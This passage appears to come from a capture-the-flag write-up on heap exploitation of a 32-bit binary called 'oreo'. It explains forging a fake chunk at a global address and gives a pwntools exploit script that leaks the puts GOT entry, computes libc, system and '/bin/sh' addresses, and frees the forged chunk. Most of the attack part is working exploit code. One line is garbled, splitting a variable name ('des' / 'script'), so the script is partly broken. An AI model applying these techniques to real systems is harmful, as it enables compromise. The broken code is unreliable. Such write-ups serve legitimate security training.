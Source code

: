 - Since the `malloc` address location of the forged `fake_chunk` happens to be the pointer to the message, in the message function, the input string will store the address pointed to by the global variable `dword_804A2A8`. The address of the global variable `dword_804A2A8` is `0x804A2A8`, and the message pointer points to `0x804a2c0`, that is, the input string is stored starting from `0x804a2c0`
- So in this way, if you remove the 24 bytes from `0x804A2A8` to `0x804A2B8`, you need to free up the `0x20 bytes of space for `fake_chunk`
- After deploying `chunk`, call the submit order function to release the forged `fake_chunk`

#### EXP

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')

r = process('/home/h3rmesk1t/oreo')
elf = ELF('/home/h3rmesk1t/oreo')
libc = ELF('/home/h3rmesk1t/libc.so.6')

def add_rifle(name, description):
    r.sendline(b'1')
    r.sendline(name)
    r.sendline(description)

def show_rifle():
    r.sendline(b'2')
    r.recvuntil(b'=====================================================\n')

def order_rifle():
    r.sendline(b'3')

def level_message(message):
    r.sendline(b'4')
    r.sendline(message)


name = b'a' * 27 + p32(elf.got['puts'])
des
script = b'b' * 25
add_rifle(name, description)
show_rifle()

r.recvuntil(b'Description: ')
r.recvuntil(b'Description: ')

puts_addr = u32(r.recvuntil('\n', drop=True)[:4])
log.success('puts address: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

num = 1
while num < 0x3f:
    add_rifle(b'a' * 27 + p32(0), b'b' * 25)
    num += 1
payload = b'a' * 27 + p32(0x804A2A8)
add_rifle(payload, b'b' * 25)

payload = b'\x00' * 0x20 + p32(40) + p32(0x100)
payload = payload.ljust(52, b'a')
payload += p32(0)
payload = payload.ljust(128, b'a')
level_message(payload)
order_rifle()
```